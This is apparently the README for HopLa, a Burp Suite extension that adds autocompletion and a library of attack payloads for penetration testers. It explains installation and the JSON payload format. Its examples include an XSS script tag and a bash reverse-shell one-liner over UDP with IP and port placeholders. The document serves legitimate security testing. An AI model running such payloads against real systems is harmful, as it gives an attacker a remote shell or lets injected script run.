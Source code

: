 # HopLa

💥 All the power of PayloadsAllTheThings, without the overhead. 
This extension adds autocompletion support and useful payloads in Burp Suite to make your intrusion easier.

Feel free to improve with your payloads ! ❤️

Developed by Alexis Danizan [![Twitter Follow](https://img.shields.io/twitter/follow/alexisdanizan?style=social)](https://twitter.com/alexisdanizan/)  
Released as open source by [Synacktiv 🥷](https://www.synacktiv.com/) 


![Demo GIF](img/demo.gif)

## Getting started


### Installation

 * Download the jar file from the release directory
 * Add it to Burp Suite using the Extender tab

### Build

Execute `gradle build` and you'll have the plugin ready in `releases/HopLa.jar`.

## Usage

By default HopLa is shipped with default payloads. You can add yours by loading a custom JSON file in the the menu. 

At the first usage HopLa creates a JSON file containing all the payloads in the jar file directory.

Press `Ctrl+Q` to display the payload library menu.

You can disable the global autocompletion in the top menu.

For i3, add the following line to `$HOME/.config/i3/config` for floating frame:

```
for_window [class=".*burp-StartBurp.*" title="^ $"] floating enable
```

### How to add payloads

The JSON payloads file follow the structure:

```json
{
    "categories": [
        {
            "name": "XSS",
            "values": [
                {
                    "name": "Simple",
                    "value": "<script>alert(1)</script>"
                },
                {
                    "name": "Multiline",
                    "value": "AAAA\nBBBB"
                },
                {
                    "name" : "Nested XSS menu",
                    "values": [
                        {
                            "name": "Simple 2",
                            "value": "<script>alert(1)</script>"
                        }
                    ]
                }
            ]
        }
    ],
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```
There is no nesting limit.

You can automatically add a prompt dialog:
```json
{
    "name":  "Bash UDP",
    "value":  "sh -i >& /dev/udp/§IP§/§PORT§ 0>&1",
    "prompt": ["IP","PORT"]
},
```

To add only keywords that do not appear in the menu, you can add them in the keywords category:

```json
{
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```

## Roadmap

* Support custom key binding for payload menu

## Thanks To

 * https://github.com/Static-Flow/BurpSuiteAutoCompletion
 * https://github.com/d3vilbug/HackBar

Thanks a lot for your awesome work !

## License

Released under BSD 3-Clause License see LICENSE for more information

Please feel free to report bugs, suggest features, or send pull requests.
